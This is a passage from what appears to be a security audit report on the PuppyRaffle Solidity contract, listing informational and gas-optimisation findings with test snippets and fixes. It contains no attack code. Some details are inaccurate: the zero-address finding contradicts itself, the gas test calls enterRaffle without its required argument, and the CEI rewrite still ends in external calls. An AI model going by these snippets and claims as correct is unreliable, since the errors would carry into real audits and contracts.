pragma solidity ^0.7.6;
```

**Recommended Mitigation:**  
To mitigate the risks of using an outdated Solidity version such as `^0.7.6`, it is strongly recommended to upgrade to a recent, stable version. Below are the steps and guidance on how to ensure the use of a suitable Solidity version:

1. **Upgrade to the Latest Stable Version:**  
   Always aim to use the latest stable release of Solidity. As of the latest updates, the `0.8.x` series is highly recommended due to its performance improvements, security patches, and gas optimizations. For example, `0.8.10` and higher are considered stable and feature-rich versions.

2. **Pin the Exact Version:**  
   Instead of using a floating version like `^0.7.6`, which allows any version from `0.7.6` to the next major release (`0.8.0`), it is best to use a pinned version, such as `pragma solidity 0.8.10;`. This prevents the contract from accidentally compiling with a future version that might contain breaking changes.

3. **Verify Stability of Solidity Versions:**  
   To find the most stable and recommended versions of Solidity, you can refer to the official Solidity GitHub repository and the [Solidity Release Notes](https://github.com/ethereum/solidity/releases). The release notes provide detailed information on the changes, optimizations, and fixes made in each version.

By following these recommendations, you can ensure that your contract remains secure, efficient, and maintainable while avoiding the risks associated with using outdated versions of Solidity.

### [I-3] Constructor in `PuppyRaffle::constructor` does not validate the zero address for `PuppyRaffle::feeAddress`

**Description:**  
The constructor of the `PuppyRaffle` contract accepts an address `_feeAddress` to specify where the fees will be sent. However, there is no validation to check if the provided `_feeAddress` is the zero address (`0x0000000000000000000000000000000000000000`). If the zero address is provided, it may cause issues in future transactions involving fee transfers. The contract fails to guard against this, which is a vulnerability.

**Impact:**  
If deployer sets the `PuppyRaffle::feeAddress` to the zero address, any attempts to transfer fees to that address will fail, leading to unexpected behavior in the contract. This could block fee payments or cause the contract to function improperly, affecting the owner and potentially resulting in financial loss.

**Proof of Concept:**  
If a user deploys the contract with the `PuppyRaffle::feeAddress` set to the zero address (`0x0000000000000000000000000000000000000000`), all attempts to transfer fees will go to the addres zero. Below is an example of a test case that can be added to a test suite to verify the issue.

```solidity

    function testWithdrawFeesToZeroAddress() public playersEntered {
        address feeAddress = address(0);
        puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        uint256 expectedPrizeAmount = ((entranceFee * 4) * 20) / 100;

        puppyRaffle.selectWinner();
        puppyRaffle.withdrawFees();
        assertEq(address(feeAddress).balance, expectedPrizeAmount);
    }

```

**Recommended Mitigation:**

To mitigate this issue, consider the following recommendations:

**Validate `feeAddress` in the constructor:**
Add a validation check in the constructor to ensure that the `feeAddress` is not set to the zero address. If the zero address is provided, revert the transaction.

Example:

```solidity
require(_feeAddress != address(0), "PuppyRaffle: Fee address cannot be the zero address");
```

### [I-4] Use of non-CEI pattern in `PuppyRaffle::selectWinner` introduces potential reentrancy vulnerability

**Description:**  
The `PuppyRaffle::selectWinner` function is vulnerable due to its use of a non-CEI (Checks-Effects-Interactions) pattern. Specifically, the function interacts with external addresses (via `winner.call{value: prizePool}("")`) not until the end.

**Impact:**  
The impact is very low since we just need to change the minting of nft before the transfer to ether.

**Recommended Mitigation:**

To mitigate the risk of reentrancy attacks, the following recommendations should be considered:

1. **Follow the Checks-Effects-Interactions (CEI) pattern:**

   Updated `selectWinner` function following the CEI pattern:

```diff
   function selectWinner() external {
       require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
       require(players.length >= 4, "PuppyRaffle: Need at least 4 players");

       uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
       address winner = players[winnerIndex];

       uint256 totalAmountCollected = players.length * entranceFee;
       uint256 prizePool = (totalAmountCollected * 80) / 100;
       uint256 fee = (totalAmountCollected * 20) / 100;
       totalFees = totalFees + uint64(fee);

       uint256 tokenId = totalSupply();
       uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100;
       if (rarity <= COMMON_RARITY) {
           tokenIdToRarity[tokenId] = COMMON_RARITY;
       } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
           tokenIdToRarity[tokenId] = RARE_RARITY;
       } else {
           tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
       }

       // State changes first
       delete players;
       raffleStartTime = block.timestamp;
       previousWinner = winner;

       // External call last
+       _safeMint(winner, tokenId);
       (bool success,) = winner.call{value: prizePool}("");
       require(success, "PuppyRaffle: Failed to send prize pool to winner");
-       _safeMint(winner, tokenId);
    }
```

### [I-5] Use of Magic Numbers in `PuppyRaffle::selectWinner` function makes the contract less maintainable and introduces potential for errors.

**Description:**  
The `PuppyRaffle::selectWinner` function contains several "magic numbers," which are hard-coded constant values directly embedded into the code. For instance, the percentage values (80% for the prize pool, 20% for the fee) are calculated using `80` and `20` respectively. Additionally, the rarity boundaries (e.g., `COMMON_RARITY`, `RARE_RARITY`, `LEGENDARY_RARITY`) are used without descriptive constants or documentation. These "magic numbers" can lead to confusion for future developers, making the code harder to maintain, test, and extend.

**Impact:**  
Hardcoding percentages and other numerical values directly in the code reduces readability and increases the risk of introducing errors in the future. If these numbers need to be updated, there is a higher chance of inconsistency or human error. Furthermore, the lack of descriptive constants or documentation means that the meaning of these numbers can easily be misunderstood or incorrectly modified. This could lead to unintended behavior or financial losses in the raffle process. It also makes the code less flexible if the contract needs to evolve or be reused in other contexts.

**Proof of Concept:**  
The `PuppyRaffle::selectWinner` function uses several magic numbers in its calculations:

```solidity
uint256 prizePool = (totalAmountCollected * 80) / 100;  // 80% prize pool
uint256 fee = (totalAmountCollected * 20) / 100;        // 20% fee
```

This usage of hardcoded values (80 and 20) for prize distribution makes the code difficult to understand and prone to errors if modifications are needed in the future. A developer who is unaware of the exact purpose of these numbers could incorrectly modify the prize distribution logic, potentially resulting in an unfair raffle outcome.

**Recommended Mitigation:**

1. **Replace Magic Numbers with Constants:**  
   To improve maintainability and readability, replace all magic numbers with descriptive constant variables. For example, the 80% prize pool and 20% fee can be stored as constants:

```solidity
   uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
   uint256 public constant FEE_PERCENTAGE = 20;
   uint256 public constant POOL_PRECISION = 100;
```

## Gas

### [G-1] Gas Optimization: `PuppyRaffle::raffleDuration` Should Be Immutable

**Description:**  
In the `PuppyRaffle` contract, the variable `PuppyRaffle::raffleDuration` is defined as a mutable public state variable. This variable is intended to represent the duration of the raffle and should remain constant throughout the contract's lifecycle.

The `PuppyRaffle::raffleDuration` should be immutable, meaning its value should be assigned once during contract initialization and should never be changed afterward. This would optimize the contract by reducing gas consumption.

**Impact:**  
Allowing `PuppyRaffle::raffleDuration` to be mutable has several negative implications:

1. **Increased Gas Costs:** Storing a mutable value that doesn't need to change requires more gas than necessary.

2. **Decreased Contract Efficiency:** Mutability in this context is redundant because the raffle duration is constant. It introduces unnecessary complexity and increases the gas cost for every transaction that interacts with this variable.

**Proof of Concept:**  
In the current contract, `PuppyRaffle::raffleDuration` is declared as a mutable public state variable. This is unnecessary since the raffle duration remains constant once set at deployment.

```solidity
uint256 public raffleDuration;
```

**Recommended Mitigation:**

To mitigate this issue, consider the following actions:

1. **Mark `PuppyRaffle::raffleDuration` as immutable:**  
   Declare `PuppyRaffle::raffleDuration` as immutable to ensure that it is only assigned during contract initialization and cannot be modified afterward. This approach will save gas by eliminating unnecessary write operations and will increase contract security by preventing unauthorized changes.

2. **Audit Other Variables:**  
   Review other state variables in the contract that may not need to change after initialization. If they can be marked as immutable, this will further optimize the contract and reduce gas usage.

3. **Follow Best Practices for Gas Optimization:**  
   By marking variables like `PuppyRaffle::raffleDuration` as immutable, you are adhering to best practices for gas optimization, making your contract more efficient and cost-effective in the long run.

By implementing these changes, you will optimize the `PuppyRaffle` contract, reduce unnecessary gas consumption, and make the raffle more secure and efficient.

### [G-2] Use of non-constant state variables for URIs in `PuppyRaffle` contract can lead to inefficient gas consumption

**Description:**  
In the `PuppyRaffle` contract, certain values, such as the URIs for images, are declared as non-constant state variables. Specifically, the variables `PuppyRaffle::commonImageUri`, `PuppyRaffle::rareImageUri`, and `PuppyRaffle::legendaryImageUri` are declared as `string` types, but they do not change during the contract's lifecycle.

**Impact:**  
Using non-constant variables for values that do not change during the contract's execution unnecessarily consumes gas. When these values are stored in contract storage, it requires additional operations, leading to higher transaction costs. In contrast, using `constant` variables would embed the values directly in the contract bytecode, significantly reducing gas usage for read operations. This results in inefficiency and increased costs for interacting with the contract.

**Proof of Concept:**  
Consider the following variables in the `PuppyRaffle` contract:

```solidity
string private commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

string private rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

string private legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

**Recommended Mitigation:**

To optimize gas usage and improve contract efficiency, consider the following recommendations:

1. **Mark the image URIs as `constant`:**  
   Update the variables `PuppyRaffle::commonImageUri`, `PuppyRaffle::rareImageUri`, and `PuppyRaffle::legendaryImageUri` to `constant`. This will embed their values directly in the bytecode, reducing the need for storage operations and improving gas efficiency.

   Example:

   ```solidity
   string private constant commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

   string private constant rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

   string private constant legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
   ```

### [G-3] Gas inefficiency due to accessing `PuppyRaffle::players.length` multiple times in a loop

**Description:**  
In the `PuppyRaffle::enterRaffle` function, the code accesses the `PuppyRaffle::players.length` storage variable multiple times inside a nested loop. Each access to a storage variable in Solidity is a costly operation in terms of gas. By accessing `PuppyRaffle::players.length` repeatedly within the loops, the contract unnecessarily increases the gas consumption, leading to inefficient execution.

**Impact:**  
The repeated access to `PuppyRaffle::players.length` in the loop increases the gas cost, especially when there are many players. This gas inefficiency may result in higher transaction costs and discourage users from interacting with the contract, particularly as the number of participants grows. It can also cause a denial of service (DoS) by pricing out users due to high gas costs, impacting the scalability of the raffle contract.

**Proof of Concept:**  
The issue can be demonstrated by observing how gas usage increases with the number of players. When the loop repeatedly accesses `PuppyRaffle::players.length` during each iteration, the gas usage scales inefficiently.

A potential test case to observe this could look like this:

```solidity
// PuppyRaffleTest.t.sol

function testGasInefficiency() public {
    // Assuming a pre-populated raffle with players
    uint256 initialGas = gasleft();
    PuppyRaffle raffle = new PuppyRaffle(1 ether, address(this), 30 days);

    // Add 1000 players to simulate the scenario
    for (uint256 i = 0; i < 1000; i++) {
        raffle.enterRaffle{value: 1 ether}();
    }

    uint256 finalGas = gasleft();
    uint256 gasUsed = initialGas - finalGas;
    console.log("Gas used by the raffle with 1000 players:", gasUsed);
}
```

The test would show a significant increase in gas usage when the number of players increases due to redundant accesses to `PuppyRaffle::players.length`

**Recommended Mitigation:**

To optimize gas usage and improve contract efficiency, consider the following recommendations:

**Store `PuppyRaffle::players.length` in a local variable:**  
 Accessing the length of an array repeatedly inside loops can be avoided by storing the value in a local variable before entering the loop. This eliminates redundant storage reads, improving gas efficiency.

Example:

```solidity
uint256 playerCount = players.length;
for (uint256 i = 0; i < playerCount - 1; i++) {
    for (uint256 j = i + 1; j < playerCount; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```
